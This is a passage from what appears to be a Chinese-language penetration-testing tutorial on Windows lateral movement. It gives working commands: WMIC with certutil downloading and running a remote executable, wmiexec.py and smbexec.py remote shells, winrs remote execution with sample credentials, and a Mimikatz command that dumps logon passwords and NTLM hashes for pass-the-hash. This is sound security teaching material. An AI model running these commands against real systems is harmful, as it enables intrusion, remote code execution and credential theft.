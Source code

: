 下载远程文件并执行:

```
wmic /node:186.64.10.13 /user:Administrator /password:Admin@123 process call create "cmd /c  certutil.exe -urlcache -split -f http://186.64.10.13/test.exe c:/windows/temp/test.exe & c:/windows/temp/test.exe"
```

创建交互式 shell:

使用 py 脚本调用 WMI 来模拟 psexec 的功能，基本上 psexec 能用的地方，这个脚本也能够使用。原理就是把数据先存到一个临时文件中，在每次读取完执行结果后就自动删除。可以用来回显执行命令的结果和获取半交互式的 shell

```
python wmiexec.py -share admin$ administrator:password@186.64.10.13
```

![](https://image.3001.net/images/20200304/15833019496220.png!small)

**3.2.4WinRM 远程管理服务**

WinRM 指的是 Windows 远程管理服务，通过远程连接 winRM 模块可以操作 windows 命令行，默认监听端口 5985（HTTP）&5986 (HTTPS)，在 2012 以后默认开启。

执行命令：

```
winrs -r:http://186.64.10.13:5985 -u:Administrator -p:Admin@123.. "whoami /all"    winrs -r:http://186.64.10.13:5985 -u:Administrator -p:Admin@123.. "cmd.exe"
```

![](https://image.3001.net/images/20200304/15833019684740.png!small)

**3.2.5SmbExec(445 端口)**

smbexec 是一款基于 psexec 的域渗透测试工具，并配套 samba 工具。

```
Smbexec.py administrator:password@186.64.10.13
```

![](https://image.3001.net/images/20200304/15833019793725.png!small)

### 3.3Pass The Hash

PTH(pass the hash) 攻击是指攻击者可以直接通过 LM Hash(已弃用) 或 NTLM Hash 访问远程主机或服务，而不提供明文密码。在 Windows 系统中，使用 NTLM 进行身份认证，当获取用户 hash 后，可以使用 Hash 传递的方式获取访问权限。

**3.3.1Mimikatz**

![](https://image.3001.net/images/20200304/15833019962490.png!small)

首先登录目标机器，以管理员身份运行 mimikatz，并输入以下命令获取 administrator 账户的 ntlm hash：

```
Mimikatz.exe “privilege::debug” “sekurlsa::logonpasswords”
```

![](https://image.3001.net/images/20200304/15833020121.png!small)
